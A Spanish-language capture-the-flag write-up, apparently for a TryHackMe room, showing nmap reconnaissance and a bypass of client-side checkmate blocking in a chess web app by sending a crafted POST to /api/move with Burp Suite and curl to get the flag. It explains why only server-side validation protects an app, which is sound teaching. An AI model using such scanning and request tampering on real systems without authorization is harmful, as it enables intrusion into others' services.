

# Reconocimiento

```bash
sudo nmap -p- -Pn -sS -n -vvv --min-rate 1000 $IP

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```bash
sudo nmap -p 22,80 -Pn -n -v --min-rate -sVC -oN versiones $IP

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 6c:85:e1:51:dd:5f:0e:7f:2a:31:ec:72:35:2f:f6:5d (ECDSA)
|_  256 b4:96:71:97:52:71:ad:8a:13:b2:e3:a5:26:28:50:3f (ED25519)
80/tcp open  http    Node.js Express framework
|_http-title: Endgame Trainer
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Entorno Web

Cuando accedemos a la app web nos encontramos con una partida de ajedrez casi terminada. La situación es la siguiente:


Siendo las piezas blancas, partimos con la ventaja de tener una pieza extra (la torre en `a1`), la cual nos permite ganar la partida en un movimiento.

>[!Note]
>El ***mate del pasillo*** ocurre cuando el rey está atrapado en la última fila por sus propios peones, sin poder moverse a los lados.
>
>En esta ocasión, nuestra torre en `a1` nos permite realizar este mate moviéndolo a la casilla `a8`.
>

Sin embargo, si intentamos este movimiento (o cualquier otro que nos permite hacer ***Jaque Mate***) nos mostrará una ventana emergente estilo retro que nos mostrará el mensaje `"I'll shut down your PC if you play that."`.

### `app.js`
Viendo el código fuente de la app, podemos ver que se carga un archivo JavaScript desde `./js/app.js` el cual contiene el código de la lógica del juego (incluido la trampa).

***[Código JavaScript](./app.js)***

Lo primero que debemos saber es en bajo que circunstancias se nos devuelve la *flag* desde el servidor. Viendo el código descubrimos que cuando conseguimos hacer ***Jaque Mate*** se nos devuelve la *flag* en formato ***JSON*** en la respuesta del servidor.

El problema viene con la función `preMoveCheck()`, en la cual vemos que si el movimiento que vamos a mandar al servidor es un ***Jaque Mate*** se muestra el mensaje que comentamos antes y no se manda la petición al servidor.

```JS
function preMoveCheck(from, to, promotion) {
  const probe = new Chess(game.fen());
  let result;
  try {
    result = probe.move({ from, to, promotion: promotion || undefined });
  } catch (e) {
    result = null;
  }
  if (result && probe.isCheckmate()) {
    showSystemNotice("I'll shut down your PC if you play that.");
    return false;
  }
  return true;
}
```

### Client-Side Validation Bypass

La estructura de la aplicación web tiene una vulnerabilidad crítica en como gestiona la validación de la lógica del programa. El problema está en que el código que valida si la jugada del usuario es ***Jaque Mate*** para bloquearlo vive en el código JavaScript que se ejecuta en el ***navegador*** (es decir, en el ***Cliente***).

>[!important]
>Las ***validaciones en el lado del cliente*** son estrictamente para la ***experiencia de usuario (UX)*** y el ***rendimiento de la aplicación***, ***NUNCA PARA LA SEGURIDAD DE LA MISMA***.

Por ejemplo, imaginemos una aplicación de un banco en el que debemos de rellenar ***20 campos de datos***.

1. Rellenamos todos los campos y pulsamos en ***Enviar***.
2. Los datos viajan por Internet hasta el servidor.
3. El servidor procesa la solicitud para darse cuenta de que la contraseña no tiene una mayúscula obligatoria.
4. El servidor nos devuelve un error, la pagina recarga y... hemos perdido todos los datos que rellenamos y tenemos que empezar de cero!

Con la validación en el cliente, en el momento en que cambiamos de campo de texto, JavaScript nos pone un mensajito en rojo al instante: "*La contraseña debe tener una mayúscula*". El usuario corrige el error en tiempo real sin frustrarse.

Además, procesar peticiones web cuesta dinero (CPU, memoria, base de datos).
Si un usuario se equivoca y pone `hola.com` en vez de `hola@gmail.com`, *qué sentido tiene hacer que el **backend** gaste recursos de procesamiento y ancho de banda en rechazar algo tan obvio?* Javascript frena esa petición antes de que salga del navegador del usuario. Actúa como un filtro para que el servidor solo le llegue tráfico que, en principio, tiene sentido.

>[!important]
>***Valida en el cliente para ayudar al usuario. Valida en el servidor para proteger la aplicación***

En este caso, la función `preMoveCheck` se podría usar para comprobar que el movimiento del usuario fuera legal. No obstante, se utiliza para impedir que el usuario pueda hacer ***Jaque Mate***, pero como esta validación se hace en el lado del cliente (a través del código JavaScript que ejecuta nuestro navegador), eso significa que podemos modificar la forma en la que enviamos la petición HTTP para el movimiento.

#### `curl` y ***Burp Suite***

Como he comentado, el código JavaScript se ejecuta de forma automática en el navegador, impidiéndonos enviar la petición HTTP y ganando la partida. Sin embargo, podemos realizar la petición directamente con herramientas como `curl` o ***Burp Suite*** para saltarnos esta validación del código JavaScript.

#### ***Burp Suite***

Para poder explotar esta vulnerabilidad a través de ***Burp Suite*** debemos de inicializar la herramienta y empezar a interceptar las peticiones y respuestas HTTP.

1. Una vez empecemos a interceptar las peticiones y respuestas, podemos simplemente mover uno de los peones a cualquier posición legal.
2. Ahora podremos ver la petición y la respuesta en el historial de ***Burp Suite***. Daremos clic en la petición y pulsaremos al combinación de teclas `CTRL + R`, así mandaremos la petición al ***Repeater de Burp Suite*** y podremos modificar la petición a nuestro antojo y ver las respuestas del servidor.
3. Una vez dentro del ***Repeater*** veremos que la petición tiene dos parámetros `from` y `to` los cuales son la posición en la que estaba la pieza y a la que se mueve.

```HTTP
POST /api/move HTTP/1.1
Host: $IP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.129.174.84/
Content-Type: application/json
Content-Length: 23
Origin: http://10.129.174.84
Connection: keep-alive
Priority: u=0

{
	"from":"f2",
	"to":"f3"
}
```

4. Ahora podemos enviar una petición al servidor en la que movamos la ***torre*** en la casilla `a1` a la casilla `a8` (***Mate del pasillo***). Como no se ejecuta el código JavaScript y en el ***backend*** no se valida la trampa como en el ***frontend***, se tomará como una jugada válida, la aplicación web verá que hemos ganado la partida y nos devolverá la *flag*.

```HTTP
POST /api/move HTTP/1.1
Host: $IP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.129.174.84/
Content-Type: application/json
Content-Length: 23
Origin: http://10.129.174.84
Connection: keep-alive
Priority: u=0

{
	"from":"a1",
	"to":"a8"
}
```

```HTTP
HTTP/1.1 200 OK
X-Powered-By: Express
Set-Cookie: sid=992332e4be2ff8491bfe4510b429312b; Path=/; HttpOnly; SameSite=Lax
Content-Type: application/json; charset=utf-8
Content-Length: 155
ETag: W/"9b-4UJFSVz7fqu+CivQPQPb7IbmWH0"
Date: Sun, 12 Jul 2026 13:45:04 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{
	"ok":true,
	"move":"a1a8",
	"fen":"R5k1/5ppp/8/8/8/8/5PPP/6K1 b - - 1 1",
	"status":"checkmate",
	"turn":"b",
	"winner":"white",
	"flag":"THM{[hidden]}"
}
```

#### `curl`

Con la herramienta `curl` podemos hacer exactamente lo mismo desde la línea de comandos.

1. Primero necesitamos conocer el ***API Endpoint*** con el cual se comunica el navegador para los movimientos de las piezas. Esta información podemos sacarla de la función `sendMove` del código JavaScript, en el que podemos ver que espera la respuesta del servidor en el ***API Endpoint*** `/api/move`.
2. Una vez conociendo el endpoint con el que debemos de comunicarnos, tan solo tenemos que especificar el tipo del contenido (`Content-Type: application/json`) y los parámetros que deseamos (`{"from":"a1","to":"a8"}`)

```bash
# Si lanza un error relacionado con jq significa que no lo tienes instalado
# No es importante, tan solo decora la salida en formato JSON del servidor, por lo que podemos quitarla sin problema
curl -s http://$IP/api/move -H "Content-Type: application/json" -d '{"from":"a1","to":"a8"}' | jq

{
  "ok": true,
  "move": "a1a8",
  "fen": "R5k1/5ppp/8/8/8/8/5PPP/6K1 b - - 1 1",
  "status": "checkmate",
  "turn": "b",
  "winner": "white",
  "flag": "THM{[hidden]}"
}
```
